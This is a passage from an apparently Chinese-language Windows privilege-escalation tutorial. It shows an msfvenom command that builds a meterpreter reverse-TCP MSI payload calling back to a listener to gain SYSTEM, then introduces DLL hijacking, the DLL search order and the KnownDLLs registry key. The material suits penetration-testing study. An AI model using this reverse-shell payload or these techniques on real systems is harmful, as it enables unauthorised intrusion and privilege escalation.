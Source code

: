 ![](https://images.payloads.online/2e038ef8-4f5f-11ec-825b-00d861bf4abb.png)
### 提权过程

首先我们需要生成一个MSI木马：

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.117.134 LPORT=443 -f msi-nouac -o lask.msi
```

开启一个监听：

![](https://images.payloads.online/2e448250-4f5f-11ec-b1cb-00d861bf4abb.png)
将lask.msi复制到Windows中，运行后即可获得SYSTEM权限。

![](https://images.payloads.online/2e8e68ca-4f5f-11ec-856a-00d861bf4abb.png)
参考学习：https://www.anquanke.com/post/id/87


## 0x05 DLL劫持提权

之前写过关于DLL劫持的几篇文章，涵盖了原理、分析过程、技巧。

* [QQ拼音输入法6.0最新版DLL劫持 - 可利用于提权](http://payloads.online/archivers/2018-06-09/1)
* [Microsoft DirectX SDK June 2010 Xact3.exe DLL Hijacking复现](http://payloads.online/archivers/2018-08-15/1)

有点懒了，基础知识我就照搬我博客的吧！

### DLL劫持简介

《DLL劫持》技术当一个可执行文件运行时，Windows加载器将可执行模块映射到进程的地址空间中，加载器分析可执行模块的输入表，并设法找出任何需要的DLL，并将它们映射到进程的地址空间中。 – 百度百科
应用程序寻找DLL的过程

* 1.程序所在目录
* 2.系统目录即 SYSTEM32 目录
* 3.16位系统目录即 SYSTEM 目录
* 4.Windows目录
* 5.加载 DLL 时所在的当前目录
* 6.PATH环境变量中列出的目录

首先如果在程序所在目录下未寻找到DLL，一般会在SYSTEM32目录下寻找到，那么可能会存在DLL劫持，要看注册表

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`


Windows操作系统通过“DLL路径搜索目录顺序”和“KnownDLLs注册表项”的机制来确定应用程序所要调用的DLL的路径，之后，应用程序就将DLL载入了自己的内存空间，执行相应的函数功能。

### 提权过程

通过Process Monitor我发现了一个应用程序存在DLL劫持漏洞，或者在实战中，我们可以将服务器上的软件Download下来，分析其漏洞。

分析过程就省略了，简介附近有一些分析过程的文章。

[传送门](http://payloads.online/archivers/2018-06-09/1)
